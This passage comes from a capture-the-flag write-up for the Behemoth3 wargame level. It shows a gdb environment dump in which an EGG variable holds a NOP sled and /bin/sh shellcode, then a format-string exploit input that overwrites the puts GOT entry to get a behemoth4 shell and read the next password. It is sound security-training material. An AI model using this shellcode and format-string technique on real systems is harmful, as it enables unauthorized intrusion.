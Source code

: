 0xffffd7d3:	"35:*.xbm=01;35:*.xpm=01;35:*.tif=01;35:*.tiff=01;35:*.png=01;35:*.svg=01;35:*.svgz=01;35:*.mng=01;35:*.pcx=01;35:*.mov=01;35:*.mpg=01;35:*.mpeg=01;35:*.m2v=01;35:*.mkv=01;35:*.webm=01;35:*.ogm=01;35:*"...
0xffffd89b:	".mp4=01;35:*.m4v=01;35:*.mp4v=01;35:*.vob=01;35:*.qt=01;35:*.nuv=01;35:*.wmv=01;35:*.asf=01;35:*.rm=01;35:*.rmvb=01;35:*.flc=01;35:*.avi=01;35:*.fli=01;35:*.flv=01;35:*.gl=01;35:*.dl=01;35:*.xcf=01;35"...
0xffffd963:	":*.xwd=01;35:*.yuv=01;35:*.cgm=01;35:*.emf=01;35:*.ogv=01;35:*.ogx=01;35:*.aac=00;36:*.au=00;36:*.flac=00;36:*.m4a=00;36:*.mid=00;36:*.midi=00;36:*.mka=00;36:*.mp3=00;36:*.mpc=00;36:*.ogg=00;36:*.ra=0"...
0xffffda2b:	"0;36:*.wav=00;36:*.oga=00;36:*.opus=00;36:*.spx=00;36:*.xspf=00;36:"
0xffffda6f:	"SSH_CONNECTION=132.68.40.23 50726 192.168.101.70 22"
0xffffdaa3:	"EGG=", '\220' <repeats 196 times>...
0xffffdb6b:	'\220' <repeats 200 times>...
0xffffdc33:	'\220' <repeats 104 times>, "\353\v[1\300\061\311\061Ұ\v̀\350\360\377\377\377/bin/sh", '\220' <repeats 71 times>...
0xffffdcfb:	'\220' <repeats 200 times>...
0xffffddc3:	'\220' <repeats 200 times>...
0xffffde8b:	'\220' <repeats 29 times>
0xffffdea9:	"_=/usr/bin/gdb"
0xffffdeb8:	"LANG=en_US.UTF-8"
0xffffdec9:	"OLDPWD=/tmp/intersys"
0xffffdede:	"USER=behemoth3"
0xffffdeed:	"PWD=/behemoth"
0xffffdefb:	"HOME=/home/behemoth3"
0xffffdf10:	"SSH_CLIENT=132.68.40.23 50726 22"
0xffffdf31:	"SSH_TTY=/dev/pts/2"
0xffffdf44:	"MAIL=/var/mail/behemoth3"
0xffffdf5d:	"SHELL=/bin/bash"
0xffffdf6d:	"TERM=xterm-256color"
0xffffdf81:	"TMOUT=1800"
0xffffdf8c:	"SHLVL=1"
0xffffdf94:	"LOGNAME=behemoth3"
0xffffdfa6:	"PATH=/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games"
```
We see the our address is at 0xffffdaa3. Let's overwrite that value in our put's address (0x080497ac). 
This process took me sometime, first to overwrite the address (playing with the width of the %x format string) and then jumping to the shellcode. I attached the log here:
[Link](https://github.com/int3rsys/behemoth-solutions/blob/master/behemoth3.log)
**I highly advise you to read the links above in order to successfully write the data in your machine**

So the the input was:
```
behemoth3@behemoth:/behemoth$ (python -c "print('AAAA\xac\x97\x04\x08AAAA\xad\x97\x04\x08AAAA\xae\x97\x04\x08AAAA\xaf\x97\x04\x08%137x%n%49x%n%37x%n%256x%n')";cat) | ./behemoth3
Identify yourself: Welcome, AAAA��AAAA��AAAA��AAAA��                                                                                                                                 41414141                                         41414141                             41414141                                                                                                                                                                                                                                                        41414141
whoami
behemoth4
cat /etc/behemoth_pass/behemoth3
cat: /etc/behemoth_pass/behemoth3: Permission denied
cat /etc/behemoth_pass/behemoth4
********
```

### Behemoth4

This one is 'fairly' easy. As always, I start the program in radare2 to seek out for information and structure of the program with the graph option:
```